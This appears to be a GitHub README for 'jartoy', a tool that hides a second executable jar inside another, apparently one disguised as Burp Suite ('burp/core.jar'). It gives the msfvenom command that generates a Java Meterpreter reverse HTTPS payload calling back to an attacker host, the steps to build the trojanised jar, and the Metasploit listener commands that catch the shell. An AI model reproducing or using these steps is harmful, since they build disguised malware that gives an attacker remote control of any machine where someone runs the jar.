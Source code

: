 ## jartoy

encapsuling executable jars inside another jar. 

1) Copy the first jar to
`app/src/main/resources/burp/core.jar`

2) Generate the second jar, and put in `app/src/main/resources/net/blue.jar`, for example:
```bash
export SERVERADDR=1.2.3.4
export SERVERPORT=443
msfvenom -p java/meterpreter/reverse_https LHOST=$SERVERADDR LPORT=$SERVERPORT -f raw -o ./app/src/main/resources/net/blue.jar
```

3) Build the new jar
```bash
# java 8 can generate a more compatible jar
./gradlew build
```

4) Get it in `./app/build/libs/app.jar`

5) Run a port listener, for example:
```bash
msfconsole 
use multi/handler
set PAYLOAD java/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT $SERVERPORT
set ExitOnSession 0
run -jz
```

6) Execute the jar.
